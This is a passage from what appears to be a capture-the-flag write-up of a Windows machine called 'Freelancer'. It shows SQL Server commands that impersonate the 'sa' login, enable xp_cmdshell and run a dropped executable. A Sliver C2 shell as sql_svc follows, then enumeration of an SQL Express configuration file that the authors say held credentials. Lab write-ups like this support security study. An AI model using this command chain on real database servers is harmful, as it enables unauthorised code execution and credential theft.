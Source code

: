 If this will not work for whatever reason, give it a try and cut the `cmd /c` part.

```c
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'Show Advanced Options', 1; 
RECONFIGURE; 
EXEC sp_configure 'xp_cmdshell', 1; 
RECONFIGURE;
EXEC xp_cmdshell 'C:\Windows\Tasks\x.exe';
```

## Enumeration

We received a shell as `sql_svc`.

```c
sliver (ADVERSE_JUICE) > whoami

Logon ID: FREELANCER\sql_svc
[*] Current Token ID: FREELANCER\sql_svc
```

In the `Downloads` folder we found a folder which seemed to contain files for a `SQL Express installation` and strangely enough, also a file called `sql-Configuration.INI` from which we extracted `credentials`.

```c
PS C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU> dir

    Directory: C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU

Mode                LastWriteTime         Length Name                            
----                -------------         ------ ----                            
d-----        5/27/2024   1:52 PM                1033_ENU_LP                     
d-----        5/27/2024   1:52 PM                redist                         
d-----        5/27/2024   1:52 PM                resources                       
d-----        5/27/2024   1:52 PM                x64                             
-a----        9/24/2019   9:00 PM             45 AUTORUN.INF                     
-a----        9/24/2019   9:00 PM            784 MEDIAINFO.XML                   
-a----        9/29/2023   4:49 AM             16 PackageId.dat                   
-a----        9/24/2019   9:00 PM         142944 SETUP.EXE                       
-a----        9/24/2019   9:00 PM            486 SETUP.EXE.CONFIG                
-a----        5/27/2024   4:58 PM            724 sql-Configuration.INI           
-a----        9/24/2019   9:00 PM         249448 SQLSETUPBOOTSTRAPPER.DLL
```

```c
PS C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU> type sql-Configuration.INI
type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
```